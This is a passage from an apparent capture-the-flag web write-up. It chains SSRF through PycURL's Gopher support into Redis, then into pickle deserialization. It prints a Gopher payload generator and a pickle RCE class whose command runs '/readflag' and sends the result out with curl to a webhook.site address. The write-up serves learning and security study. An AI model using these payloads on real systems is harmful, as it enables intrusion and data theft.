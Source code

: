 ```python
def get_base_url(url):
    parsed = urlparse(url)
    return "{0.scheme}://{0.netloc}".format(parsed)

def make_absolute(base, url):
    if url.startswith('//') or '://' in url:
        return url
    return "{0}{1}".format(base, url)

def make_absolute_list(base, urls):
    return [make_absolute(base, url) for url in urls]

def process_url(url):
    **page = request(url)**
    base = get_base_url(url)
    links = get_links(page)
    images = get_images(page)
    return make_absolute_list(base,links), make_absolute_list(base,images)
```
*`scrape.py`*

PycURL is a Python interface to [libcurl](https://curl.se/libcurl/), and PycURL supports every protocol you could think of, including [Redis' Gopher protocol implementation](https://redis.io/docs/reference/gopher/).

I did a few quick Googles to figure out how to work with Gopher for SSRF, and I found these handy blogs by [Muh. Fani Akbar](https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b), [Rayhan0x01](https://www.hackthebox.com/blog/red-island-ca-ctf-2022-web-writeup#the_ssrf_with_support_of_a_plethora_of_protocols__), and another from [Manas Harsh](https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630).

Using Rayhan0x01's Python script to generate a Gopher payload:

```python
redis_cmd = """
INFO
quit
"""
gopherPayload = "gopher://127.0.0.1:6379/_%s" % redis_cmd.replace('\r','').replace('\n','%0D%0A').replace(' ','%20')
 
print(gopherPayload)
```
*Gopher payload creator, proof of concept*

## Chaining Payloads: From Pickle Deserialization to Redis Cache Poisoning to Game Over <a name="game-over"></a>

First things first, we need to take Rayhan0x01’s payload, add in our Pickle deserialization, then tell Redis to cache the payload: 

```python
import base64
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('/readflag | base64 -w 0 > /tmp/flag; curl https://webhook.site/<YOUR_GUID>?flag="$(cat /tmp/flag)"')
        return os.system, (cmd,)
		
pickled = pickle.dumps(RCE())
payload_b64 = base64.b64encode(pickled).decode('ascii')

redis_cmd = f"hset jobs 2813308004 {payload_b64}\nquit\n"
```